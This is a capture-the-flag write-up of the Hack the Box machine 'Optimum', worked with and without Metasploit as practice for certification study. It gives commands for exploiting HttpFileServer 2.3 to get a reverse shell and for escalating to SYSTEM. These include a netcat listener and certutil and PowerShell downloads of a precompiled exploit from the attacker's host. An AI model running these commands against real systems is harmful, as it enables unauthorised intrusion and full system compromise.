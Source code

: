 # Hack the Box — Optimum

>With and Without Metasploit

Originally, I solved this box as part of the [TCM Security](https://tcm-sec.com/) Practical Ethical Hacking course with Metasploit but Heath, the instructor, did mention going back to solve it manually would be good practice. Whelp since the OSCP only lets one Metasploit use, I figure let me get into the practice of doing boxes without it. This box is also on the [TJ Null List](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview).

![](https://miro.medium.com/v2/resize:fit:1400/1*Tkm7wn36_eVugxDozoN1cg.png)

## Recon

```
nmap -sC -sV -O -oA nmap/initial 10.10.10.8
```

![](https://miro.medium.com/v2/resize:fit:1400/1*KhC9fJPRVEJN-Fyg9QS08A.png)

```
nmap -sC -sV -O -p- -oA nmap/full 10.10.10.8
```

![](https://miro.medium.com/v2/resize:fit:1400/1*ryDdQU1aYi1NPlOQDKcRUA.png)

```
nmap -sU -O -p- -oA nmap/udp 10.10.10.8
```

![](https://miro.medium.com/v2/resize:fit:1400/1*rU0BhbSYVpzuMIVqzA2WEw.png)

## Enum

![](https://miro.medium.com/v2/resize:fit:1400/1*mJeiinFBAp6EAMydlbvEbQ.png)

Google it…

![](https://miro.medium.com/v2/resize:fit:1400/1*pm9WYsBS-OeVTy53zOQ_xQ.png)

Exploitable! We find [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

## Exploitation With Metasploit

### Find exploit for HttpFileServer 2.3

![](https://miro.medium.com/v2/resize:fit:1400/0*M_yQDS6akQYVmyBf.png)

### Configure the Options

![](https://miro.medium.com/v2/resize:fit:1400/0*HUvn0ZHx18OSxomT.png)

### There’s a Difference in Architecture between the box and our meterpreter session

### But that doesn’t seem to affect our exploitation

Possible because Metasploit is auto-detecting the target

![](https://miro.medium.com/v2/resize:fit:1400/0*w0-5MiZxyZtBzZGJ.png)

### Privilege Escalation

I background the first meterpreter session and search for suggested post-breach exploits  
The only option that needs to be configured here is the session  
If sessions aren’t know you can just run `show sessions`

![](https://miro.medium.com/v2/resize:fit:1400/0*NshUqREfn1rwDHEm.png)

Once the suggester runs, I find what I’m really looking for which is a way to privilege escalate from the “Kostas” user to the system authority/root

![](https://miro.medium.com/v2/resize:fit:1400/0*abn58EusSDBr5OEk.png)

We get system authority from the exploit

![](https://miro.medium.com/v2/resize:fit:1400/0*znOGliVxGk4GRf3q.png)

## Manual Exploitation

In order to use the exploit we found from google searching we must find netcat and copy it into our working folder so we can serve it

```bash
locate nc.exe  
cp /usr/share/windows-binaries/nc.exe ~/HTB/Optimum-10.10.10.8
```

Start the HTTP server

```bash
python -m SimpleHTTPServer 80 
```

Start a listener

```bash
nc -nlvp 5555
```

Download the exploit we found: [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

![](https://miro.medium.com/v2/resize:fit:1400/1*E3d3LhYc3LQPLzaheSQUZw.png)

“searchsploit -m” makes it easy to download exploits from exploit-db

Edit the exploit with our details

![](https://miro.medium.com/v2/resize:fit:1400/1*PvcDP6QPglaxESw9qCoZTA.png)

Run the exploit

```bash
python 39161.py 10.10.10.8 80
```

Acquire shell on listening port

![](https://miro.medium.com/v2/resize:fit:1400/1*15cytkwhgtiWsfETHjWyNQ.png)

Get user flag

![](https://miro.medium.com/v2/resize:fit:1368/1*Mi0ocPrNJc9EgAhWdglIxg.png)

### Priv Esc

I used [https://github.com/Glyph-Research/Windows-Exploit-Suggester.git](https://github.com/Glyph-Research/Windows-Exploit-Suggester.git) which as its name implies suggests exploits based on system info

Initially, I ran this based on the readme instructions:

```bash
pip install xlrd --upgrade
```

![](https://miro.medium.com/v2/resize:fit:1400/1*YxIWL047fDQdnLZglUqiaw.png)

To install the dependencies and update them BUT it actually broke the exploit.

I kept getting this error:

![](https://miro.medium.com/v2/resize:fit:1400/1*a8j3uCY-CShUQRSNj3olWA.png)

The fix was to downgrade to the older version I had before:

```bash
pip install xlrd==1.2.0 
```

![](https://miro.medium.com/v2/resize:fit:1400/1*nNmu9aIpUqsnS5Ja5wbWEw.png)

Now that the dependency issue has been fixed let me go back and explain the preparation for the above command.

In order to prepare the database and system info I run ``systeminfo`` command using the foothold of the Kostas user

![](https://miro.medium.com/v2/resize:fit:1400/1*RzePLwMD2DUJunLvXkCpqQ.png)

Copy the output of ``systeminfo`` into sysinfo.txt

Then I run the following to create that database .xls file

```bash
./windows-exploit-suggester.py --update
```

![](https://miro.medium.com/v2/resize:fit:1400/1*3nZNLgeBhwqRpYiY3mi4nw.png)

Once those two pieces are created I can run the suggester:

![](https://miro.medium.com/v2/resize:fit:1400/1*nNmu9aIpUqsnS5Ja5wbWEw.png)

From here all I have to do is download the executable that has already been compiled and since I still have my python server up and running I put this .exe in the same folder so I can grab it with Kostas

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

![](https://miro.medium.com/v2/resize:fit:1400/1*rRD8xyIk8kobDflW8kSkEA.png)

Go back to my Kostas shell and use certutil

```
certutil.exe -urlcache -f http://10.10.14.37:80/41020.exe toasted.exe
```

This can also be accomplished with PowerShell

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.37:80/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

![](https://miro.medium.com/v2/resize:fit:1400/1*iU9FuVbLge_dE6PXN26fkQ.png)

Once the exploit is run and the privileges have been escalated then getting the root flag is simple

![](https://miro.medium.com/v2/resize:fit:1400/1*ehrPXjlZQ4Q2vlUNtGPKfg.png)

## Issues

Why was any of this possible? Both the foothold and privilege escalation were do to old, unpatched software. This box is old but has evergreen relevance because we are still facing issues in 2023 due to unpatched software and system components.
